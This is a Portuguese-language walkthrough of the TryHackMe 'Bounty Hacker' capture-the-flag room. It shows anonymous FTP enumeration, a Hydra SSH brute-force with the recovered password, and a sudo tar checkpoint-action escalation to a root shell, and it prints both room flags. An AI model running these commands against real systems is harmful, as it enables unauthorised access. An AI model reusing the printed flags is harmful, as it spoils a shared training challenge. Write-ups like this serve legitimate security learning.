

<p align="center">
  
</p>
# Bounty Hacker — TryHackMe | Write-up
 
> Walkthrough / anotações da resolução da sala **Bounty Hacker** do TryHackMe.
> Objetivo: usar o FTP anônimo para coletar pistas, realizar brute-force de SSH
> e escalar privilégios via `tar` com `sudo` até o `root`.
 
**Autor:** Matheus Campos Pereira
 
---
 
## Índice
 
1. [Informações do alvo](#informações-do-alvo)
2. [Metodologia](#metodologia)
3. [Fase 1 — Reconhecimento e Enumeração](#fase-1--reconhecimento-e-enumeração)
   - [1.1 Scan de portas e serviços (Nmap)](#11-scan-de-portas-e-serviços-nmap)
   - [1.2 FTP anônimo](#12-ftp-anônimo)
4. [Fase 2 — Acesso Inicial (Foothold)](#fase-2--acesso-inicial-foothold)
   - [2.1 Brute-force SSH (Hydra)](#21-brute-force-ssh-hydra)
   - [2.2 Login SSH e Flag de usuário](#22-login-ssh-e-flag-de-usuário)
5. [Fase 3 — Escalonamento de Privilégios](#fase-3--escalonamento-de-privilégios)
6. [Resumo](#resumo)
7. [Ferramentas utilizadas](#ferramentas-utilizadas)
---
 
## Informações do alvo
 
| Item              | Valor            |
|-------------------|------------------|
| **IP do alvo**    | `10.64.160.158`  |
| **IP do atacante**| `10.64.111.231`  |
| **Sala**          | Bounty Hacker    |
| **Plataforma**    | TryHackMe        |
| **Dificuldade**   | Easy · 45 min    |
 
---
 
## Metodologia
 
```
Reconhecimento → FTP anônimo (pistas) → Brute-force SSH → Acesso → tar + sudo → Root
```
 
---
 
## Fase 1 — Reconhecimento e Enumeração
 
### 1.1 Scan de portas e serviços (Nmap)
 
```bash
nmap -sC -sV 10.64.160.158
```
 
**Serviços expostos:**
 
| Porta  | Serviço | Versão                        | Observação                   |
|--------|---------|-------------------------------|------------------------------|
| 21/tcp | ftp     | vsftpd 3.0.5                  | **Login anônimo permitido**  |
| 22/tcp | ssh     | OpenSSH 8.2p1 (Ubuntu)        | Acesso remoto                |
 
### 1.2 FTP anônimo
 
O Nmap já indica que o **login anônimo está liberado**. Conectando ao FTP e baixando os
arquivos disponíveis:
 
```bash
ftp 10.64.160.158
# usuário: anonymous  (senha em branco)
 
ls
get task.txt
get locks.txt
```
 
| Arquivo     | Conteúdo / utilidade                                           |
|-------------|---------------------------------------------------------------|
| `task.txt`  | Nota assinada por **lin** → revela um possível usuário SSH     |
| `locks.txt` | Lista de senhas candidatas → serve de wordlist para brute-force|
 
> A combinação é o vetor da sala: o usuário vem do `task.txt` (**lin**) e as senhas,
> do `locks.txt`.
 
---
 
## Fase 2 — Acesso Inicial (Foothold)
 
### 2.1 Brute-force SSH (Hydra)
 
Usando o usuário `lin` e a wordlist `locks.txt` recuperada do FTP:
 
```bash
hydra -l lin -P locks.txt ssh://10.64.160.158
```
 
**Resultado:**
 
```
[22][ssh] host: 10.64.160.158   login: lin   password: RedDr4gonSynd1cat3
```
 
| Usuário | Senha                 |
|---------|-----------------------|
| `lin`   | `RedDr4gonSynd1cat3`  |
 
### 2.2 Login SSH e Flag de usuário
 
```bash
ssh lin@10.64.160.158
# yes (aceitar fingerprint)
# senha: RedDr4gonSynd1cat3
 
ls -la
cat user.txt
```
 
```
Flag de usuário: THM{CR1M3_SyNd1C4T3}
```
 
---
 
## Fase 3 — Escalonamento de Privilégios
 
Checando as permissões `sudo` do usuário `lin`, o binário **tar** pode ser executado como
root — um vetor clássico do [GTFOBins](https://gtfobins.github.io/gtfobins/tar/). O `tar`
permite executar comandos através da ação de *checkpoint*:
 
```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
# tar: Removing leading `/' from member names
 
whoami
# root
```
 
Com shell de root, ler a flag final:
 
```bash
cd /root
ls
# root.txt  snap
cat root.txt
```
 
```
Flag de root: THM{80UN7Y_h4cK3r}
```
 
Acesso **root** obtido. ✅
 
---
 
## Resumo
 
| Etapa              | Detalhe                                                           |
|--------------------|-------------------------------------------------------------------|
| **Vetor inicial**  | FTP anônimo → `task.txt` (usuário) + `locks.txt` (wordlist)       |
| **Credenciais**    | `lin` : `RedDr4gonSynd1cat3`                                      |
| **Acesso**         | Brute-force SSH com Hydra                                         |
| **Escalonamento**  | `sudo tar ... --checkpoint-action=exec=/bin/sh` (tar como root)   |
| **Flag de usuário**| `THM{CR1M3_SyNd1C4T3}`                                            |
| **Flag de root**   | `THM{80UN7Y_h4cK3r}`                                              |
 
---
 
## Ferramentas utilizadas
 
- **Nmap** — scan de portas e detecção de serviços/versões
- **FTP (cliente)** — coleta dos arquivos `task.txt` e `locks.txt`
- **Hydra** — brute-force de credenciais SSH
- **SSH** — acesso remoto ao alvo
- **tar / sudo** — escalonamento de privilégios (GTFOBins)
 
